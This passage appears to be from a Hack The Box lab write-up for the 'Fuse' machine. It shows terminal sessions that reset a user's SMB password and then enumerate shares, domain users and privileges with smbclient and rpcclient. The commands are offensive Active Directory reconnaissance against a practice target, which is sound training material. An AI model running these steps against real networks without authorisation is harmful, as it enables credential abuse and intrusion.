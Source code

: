```text
┌──(zweilos㉿kali)-[~/htb/fuse]
└─$ smbpasswd -r 10.10.10.193 -U bnielson                                                         
Old SMB password: Fabricorp01
New SMB password: $Up3rC0mp13xP@$$w0rd
Retype new SMB password: $Up3rC0mp13xP@$$w0rd
Password changed for user bnielson
```

After choosing a more complex password, I was able to change it successfully.

{% hint style="info" %}
If you change a user's password, and find that after a minute or so that your password isn't working, this is intended by the machine creator.  Especially on the free servers there may be a lot of people trying to exploit the machine at the same time, so this saves the trouble of a million machine resets. \(But it is still annoying if you don't know what's going on!\)
{% endhint %}

```text
┌──(zweilos㉿kali)-[~/htb/fuse]
└─$ smbclient -U "bnielson" -L \\\\10.10.10.193\\ 
Enter WORKGROUP\bnielson's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        HP-MFT01        Printer   HP-MFT01
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

Next I used my new password for `bnielson` to enumerate open SMB shares. Besides the standard default shares, there were also a `HP-MFT01` and a `$print` share.

```text
┌──(zweilos㉿kali)-[~/htb/fuse]
└─$ rpcclient -U bnielson 10.10.10.193   
Enter WORKGROUP\bnielson's password: 

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]

rpcclient $> enumprivs 0x451
found 35 privileges

SeCreateTokenPrivilege          0:2 (0x0:0x2)
SeAssignPrimaryTokenPrivilege           0:3 (0x0:0x3)
SeLockMemoryPrivilege           0:4 (0x0:0x4)
SeIncreaseQuotaPrivilege                0:5 (0x0:0x5)
```